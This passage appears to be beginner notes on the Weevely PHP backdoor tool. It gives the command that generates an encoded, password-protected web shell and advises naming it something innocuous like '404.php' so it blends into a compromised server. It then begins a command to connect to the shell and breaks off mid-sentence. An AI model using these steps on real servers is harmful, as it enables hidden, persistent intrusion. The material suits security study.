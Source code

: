 # How 2 Weevely

#### Introduction
Weevely is a PHP backdoor utility that allows users to set up a reverse shell on an exploited system

### Basic Weevely Setup and Commands
`weevely generate <pass> /path/to/php/file.php`
This creates a simple backdoor protected by a password at the given filepath. This file is encoded, and we can upload this file to the exploited/vulnerable directory.
A tip I was given by a youtube video that has a great tutorial on how to use weevely was to give the file an innocous name that would blend into the system, like "404.php",
which could stand for a 404 redirect on a webserver.

`weevely ftp://destination/file.php <pass>`
This allows us to leverage the 
